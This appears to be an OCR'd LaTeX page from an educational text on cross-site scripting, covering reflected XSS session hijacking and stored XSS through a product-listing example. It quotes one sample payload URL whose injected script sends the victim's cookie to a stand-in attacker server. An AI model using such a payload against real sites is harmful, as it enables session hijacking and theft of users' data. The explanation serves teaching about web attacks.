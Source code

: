 \documentclass[11pt]{article}
\begin{document}
The attacker is then able to send this crafted URL to the victim via email or some other channel. Then after the user clicks on the link, the attacker is already able to gather the user's cookie information. Usually, the attacker wants to get more information so they may have a crafted form along with the URL such that the attacker can also access user's form data. Namely, the attacker can gather sensitive information about their victim if their victim fills out the form. All of this information is sent over to the attacker because the link points to the attacker's server. In this way, the attacker is able to leverage the site's vulnerability and gather information from the victim without the victim's knowledge. \\

\includegraphics[width = 16cm]{reflected-xss-session-hijack-attack.png}

\textbf{Persistent XSS}\\
Stored or persistent attacks are similar to reflected attacks however, the attacker puts malicious code on the server running the application and takes advantage of the code on the server of the application. The malicious script gets executed when a victim makes a request to server. For example, take our online store example from earlier. Suppose you were selling a very attractive Porsche Panamera for CHEAP. We can assume that this link would capture the attention of many. As a hacker, you realized that whatever content you included on the description is reflected verbatim on this site. Therefore, you created and encoded a link to some pictures in the object description similar to the link above:

\begin{quote}
    http://vulnerable-server.com/q?search=$<$script$>$var+img=new+image();img.src=\\
    "http://attacker-server.com/" + document.cookie;$<$/script$>$
\end{quote}

This link lives in the server in perpetuity (unless the website managers realize this). The listing has malicious code executed every time a user clicks on the link or navigates to the vulnerable part of the website. Furthermore, this is a fairly severe case since the attacker can gather form data and forward it to their hacker servers. Thus, we can see the realm of possibilities are seemingly endless for a hacker. \\
\end{document}

